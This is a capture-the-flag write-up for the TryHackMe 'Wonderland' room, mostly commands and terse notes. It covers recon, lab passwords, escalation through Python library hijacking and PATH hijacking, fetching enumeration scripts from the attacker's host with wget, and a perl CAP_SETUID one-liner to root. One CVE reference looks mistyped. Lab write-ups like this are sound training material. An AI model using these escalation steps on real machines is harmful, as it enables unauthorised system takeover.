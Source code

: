 # [THM] Wonderland


## recon

- [nmap scan](./nmap.log)
	- cmd:`nmap -sC -sV -A -o nmap.log 10.10.72.185`
	- p22 & p80 are open

- [gobuster scan](./gobuster.log): 
	- cmd:`gobuster dir -u http://10.10.72.185/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log`
	- found a subdirectory `/r`, after gobuster scanning this found `/a`
		- like this found `<ip>/r/a/b/b/i/t/`
	- found `/img`, contains 3 images
		- found `hint.txt` by `steghide extract -sf white_rabbit_1.jpg`

- found `alice:HowDothTheLittleCrocodileImproveHisShiningTail` on `view-source:http://10.10.72.185/r/a/b/b/i/t/`
- `sudo -l` > `(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
	- py file _imports random library_ (do library hijacking)
	- create `random.py` (code: `import os \n os.system("/bin/bash")`)
- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` & now we are __rabbit__ user

- found `teaParty` in `/home/rabbit`
		- start python server `python3 -m http.server`
		- download it `wget http://10.10.72.185:8000/teaParty`

- `strings teaParty` 
	- found ``
	- create `nano date`, containing `#!/bin/bash \n /bin/bash`
	- now `chmod +x date` > `export PATH=/home/rabbit:$PATH` > `echo $PATH` > `./teaParty`
	- now we are __hatter__ user

- found `password.txt` on `/home/hatter` saying `WhyIsARavenLikeAWritingDesk?` (user _hatter_'s pwd > do `su hatter`)
- uploaded `linpeas.sh` to target machine
	- `python -m http.server`
	- `wget http://10.18.116.142:8000/linpeas.sh`
- same way uploaded `LinEnum.sh`

- [linpeas.sh](./linpeas.log) & [LinEnum.sh](./LinEnum.log) outputs

- __linpeas__ show _sudo version 1.8.21p2_ is vulnerable to _CVE-2021-403_ (nothing happens)
- it shows that _perl CAP_SETUID_ is vuln > use gtfobins (perl - capblities)
	- type `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
	- got root!
